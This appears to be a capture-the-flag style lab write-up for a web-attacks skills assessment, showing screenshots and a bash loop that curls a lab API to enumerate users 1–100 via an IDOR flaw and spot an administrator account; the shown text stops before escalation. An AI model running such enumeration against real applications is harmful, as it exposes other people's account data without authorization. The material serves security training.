 # Web Attacks - Skills Assessment

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. 
Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.

## Exercise 


<img width="1549" height="513" alt="image" src="https://github.com/user-attachments/assets/d96797fc-ab8c-4637-8d86-9f577c8573de" />

<img width="1912" height="772" alt="image" src="https://github.com/user-attachments/assets/dd8d2402-fecd-49cc-97d4-aca407e14ea0" />

<img width="1898" height="665" alt="image" src="https://github.com/user-attachments/assets/7e77b600-6407-4a35-8280-2fda7950a5e5" />

Test if this endpoint is vulnerable to IDOR, by changing the uid value: 

<img width="1889" height="584" alt="image" src="https://github.com/user-attachments/assets/dbb8e372-c184-4673-af05-afc5e1fd5dd6" />

<img width="1265" height="469" alt="image" src="https://github.com/user-attachments/assets/2d34393d-fc80-4bb4-807d-6381a7bbfe80" />

<img width="1925" height="475" alt="image" src="https://github.com/user-attachments/assets/2dc84fbe-640a-4057-8391-987979babbf8" />

Fuzz the uid of users from 1 to 100 using script:

```
#!/bin/bash

for uid in {1..100}; do
	curl -s "http://94.237.49.23:37798/api.php/user/$uid"; echo
done
```

```
bash ./script.sh  grep -i "admin" | jq .

{
  "uid": "50",
  "username": "r.raby",
  "full_name": "Rafaela Raby",
  "company": "Okuneva - Mayert"
}
{
  "uid": "51",
  "username": "a.batres",
  "full_name": "Abir Batres",
  "company": "Rosenbaum LLC"
}
{
  "uid": "52", <-------- UID 52
  "username": "a.corrales",  <--------- * 
  "full_name": "Amor Corrales", <------- * 
  "company": "Administrator"   <----------- ADMIN USER** 
}
{
  "uid": "53",
  "username": "n.downs",
  "full_name": "Nico Downs",
  "company": "Welch, Collier and Gulgowski"
}
```